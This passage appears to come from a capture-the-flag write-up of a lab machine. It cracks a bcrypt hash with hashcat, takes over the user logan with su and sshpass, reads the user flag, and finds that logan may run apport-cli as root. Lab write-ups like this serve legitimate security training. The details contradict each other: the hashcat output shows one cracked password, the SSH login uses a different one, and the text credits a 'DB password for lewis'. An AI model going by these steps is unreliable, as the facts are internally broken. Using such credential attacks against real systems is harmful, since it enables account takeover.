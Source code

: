 I’ll kill this and try the DB password for lewis, and it works:

```

oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes sqlpass --user -m 3200
hashcat (v6.2.6) starting
...[snip]...
$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u:P4ntherg0t1n5r3c0n##
...[snip]...

```

### su / SSH

From my shell, I can run `su - logan` and enter the password to get a shell as logan:

```

www-data@devvortex:~$ su - logan
Password: 
logan@devvortex:~$ 

```

Or I can SSH from my box:

```

oxdf@hacky$ sshpass -p tequieromucho ssh logan@devvortex.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)
...[snip]...
logan@devvortex:~$

```

Either way, I can grab `user.txt`:

```

logan@devvortex:~$ cat user.txt
219399c3************************

```

## Shell as root

### Enumeration

logan can run `apport-cli` as root with `sudo`:

```

logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli

```
